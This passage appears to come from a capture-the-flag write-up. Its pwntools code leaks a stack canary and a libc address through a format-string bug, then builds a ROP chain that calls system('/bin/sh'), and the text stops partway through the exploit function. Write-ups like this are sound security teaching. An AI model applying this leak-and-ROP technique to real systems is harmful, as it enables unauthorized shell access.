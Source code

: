 ![about binary](/assets/images/writeups/qnqsec/check_canary.png)

After the breakpoint we can get the offset from our buffer to the stack canary.

![about binary](/assets/images/writeups/qnqsec/canary.png)

offset to canary : 56.

Now we can build our paylaod.

```python.
offset_to_canary = 56
payload = flat(
	cyclic(offset_to_canary), # padding to canary
	canary, # from leak ealier
	cyclic(8), # saved rbp
	rop.find_gadget(['ret'])[0], # ret gadget for stack alignment
	libc_rop.find_gadget(['pop rdi', 'ret'])[0], # pop rdi, ret;
	next(libc.search(b"/bin/sh")), # get address of /bin/sh
	libc.sym.system, # adress of system function
)
```

Here is the exploit

```python
def exploit():
	##################################################################### 
	######################## EXPLOIT CODE ###############################
	#####################################################################
	canary_ = "%9$p"
	write_23 = "%3$p"

	fmt = f"{write_23}|{canary_}"
	sla(b"less)?\n", fmt.encode())
	ru(b"Hello, ")
	leaks = rl().rstrip(b"\r\n")
	canary = leaks.split(b"|")[1]
	canary = int(canary, 16)
	
	print_leak("Canary", canary)
	x = leaks.split(b"|")[0]
	x = int(x, 16)
	libc.address = (x - 23) - libc.sym.write
```